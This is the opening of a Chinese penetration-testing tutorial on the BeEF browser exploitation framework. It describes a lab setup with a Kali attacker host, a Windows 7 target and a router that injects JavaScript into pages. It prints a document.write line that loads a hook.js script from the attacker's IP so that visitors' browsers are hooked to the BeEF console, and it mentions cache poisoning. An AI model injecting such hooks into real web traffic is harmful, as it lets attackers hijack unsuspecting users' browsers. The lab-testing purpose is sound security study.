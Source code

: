 # 浏览器利用框架BeEF测试

0x00 前言
=====

BeEF，全称The Browser Exploitation Framework，是一款针对浏览器的渗透测试工具。 目前对其测试的文章不是很多，所以希望通过本次测试给大家带来全新的认识。

![这里写图片描述](http://drops.javaweb.org/uploads/images/68e7f4893eb8c37f9d32414f709e3a2106db1940.jpg)

0x01 简介
=====

工具主页：[http://beefproject.com](http://beefproject.com/)

工具框架:

![这里写图片描述](http://drops.javaweb.org/uploads/images/06ff4eabfc20602671192c3ccf2dc0831cb2556e.jpg)

0x02 测试环境
=====

攻击主机:

```
操作系统:Kali 1.0
IP:192.168.16.245

```

测试主机:

```
操作系统:Win7x86
IP:192.168.16.197

```

路由器：

```
WooyunWifi
开启JS注入功能

```

![这里写图片描述](http://drops.javaweb.org/uploads/images/1f0092881dcb1c24b99540d30576d6f8b73e5ae9.jpg)

**_Tips：_**

```
WooyunWifi开启JS注入功能后会对用户访问的页面加入JS代码，如果JS代码设置成如下格式，那么运行后会在BeEF控制端返回一个shell

document.write("<script language='javascript' src='http://192.168.16.245:3000/hook.js'></script>");

默认情况下JS注入附带缓存投毒功能，将视图缓存所有的页面至2099年，但可以通过清除所有缓存及浏览数据来清除缓存投毒的影响。

```
